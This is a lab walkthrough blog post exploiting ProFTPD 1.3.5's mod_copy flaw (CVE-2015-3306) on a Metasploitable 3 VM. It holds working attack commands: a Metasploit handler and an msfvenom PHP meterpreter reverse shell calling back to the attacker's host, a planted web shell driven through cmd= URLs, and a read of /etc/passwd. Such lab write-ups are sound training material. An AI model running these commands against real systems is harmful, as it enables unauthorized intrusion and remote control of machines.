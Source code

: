 ```yaml
---
layout: post
title: "Metasploitable Series Issue 1"
categories: ["Hands-on", "Metasploitable"]
tags: "Metasploitable Series"
---
```


# Metasploitable Series
## Issue 1 : ProFTPD 1.3.5

![Nmap Scan](/images/nmap-scan1.png)

The first step that was done was scan the machine using nmap -sV -A

The main focus in this FTP exploitation

VICTIM IP = 192.168.199.130

# FTP services

## Version : ProFTPD 1.3.5

since we get the version number I decided on using _searchsploit_ to locate any existing exploit

![search exploit](/images/searchsploitFTP.png)

### Mode_copy remote command execution

- sudo python 49908.py 192.168.199.130  
  allows the remote attacker to read and write arbitary files via the side CPFR and site CPTO commands
  When running the command we were able to put a test.php in the victim!
  instead of test.php what if i uploaded a _reverse shell_ php?

### Making a backdoor php using venom

we need to upload the reverse shell php and have a listener set up to capture the connection

1. Setting up the listener using msfconsole

- msfconsole
- use exploit/multi/handler
- set Lhost 192.168.199.128
- set Lport 4444
- set payload windows/meterpreter/reverse_tcp
- run


![Listener](/images/listener.png)


2. Creating reverse shell using msfvenom

- msfvenom -p php/meterpreter_reverse_tcp -o shell.php LHOST=192.168.199.128 LPORT=4444

## Exploiting CVE-2015-3306

i had problems with 49908.py exploit so i used https://github.com/t0kx/exploit-CVE-2015-3306
after reading the exploit I understood that we have to add to the link the cmd command like the below:

![exploit](/images/ftpmcexploit.png)

![test PHP](/images/testphp.png)


http://192.168.199.130/test.php?cmd=ls

### What we can find out

WHOAMI
http://192.168.199.130/test.php?cmd=whoami _www-data_

Os Running
http://192.168.199.130/test.php?cmd=uname -a _Linux metasploitable3-ub1404 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux_

Users in the machine
http://192.168.199.130/test.php?cmd=cat%20/etc/passwd

users found

- luke_skywalker
- han_solo
- artoo_detoo
- leia_organa
- c_three_pio
- ben_kenobi
- darth_vader
- anakin_skywalker
- jarjar_binks
- lando_calrissian
- boba_fett
- jabba_hutt
- kylo_ren
- chewbacca
- greedo
